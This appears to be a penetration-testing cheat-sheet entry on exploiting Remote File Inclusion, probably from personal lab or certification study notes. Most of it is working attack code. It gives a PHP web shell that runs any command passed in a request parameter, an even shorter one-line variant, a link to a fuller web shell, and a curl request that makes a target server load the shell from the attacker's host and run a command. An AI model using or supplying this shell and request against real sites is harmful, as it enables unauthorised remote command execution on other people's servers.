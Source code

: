 # RFI

Used when we can reference a file on our kali machine.

We begin by hosting the following `simple-backdoor.php` file on a simple python http server:

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

We can also use [p0wny-shell](https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php) or a even simpler one in this context:

```php
<?php system($_GET['cmd']); ?>
```

We can then exploit the RFI via the following request (unless using [p0wny-shell](https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php)):

```powershell
curl 'http://example.com/index.php?page=http://$OUR_IP/simple-backdoor.php&cmd=ls'
```
